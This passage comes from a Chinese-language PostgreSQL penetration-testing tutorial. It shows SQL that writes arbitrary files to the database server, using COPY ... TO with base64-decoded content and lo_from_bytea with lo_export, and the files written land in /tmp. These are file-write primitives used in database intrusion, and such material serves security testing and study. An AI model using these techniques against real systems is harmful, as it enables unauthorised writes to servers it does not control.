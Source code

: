 [![](assets/1710209150-ca7420238e90a166af533f05668ffbda.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/2.png)

也可以 base64 一下

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';<br>``` |

[![](assets/1710209150-23f265bc41ff628016b432e7c9a61b2e.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/16.png)

[![](assets/1710209150-021f04ecf9b5696e0d4d97284dd64fd5.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/17.png)

**方法 2 lo\_export**

lo\_export 采用大对象 OID 和路径，将文件写入路径。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>select lo_from_bytea(12349,'ffffffff0x');<br>SELECT lo_export(12349, '/tmp/ffffffff0x.txt');<br><br>-- base64 的形式<br>select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));<br>SELECT lo_export(12350, '/tmp/ffffffff0x.txt');<br>``` |
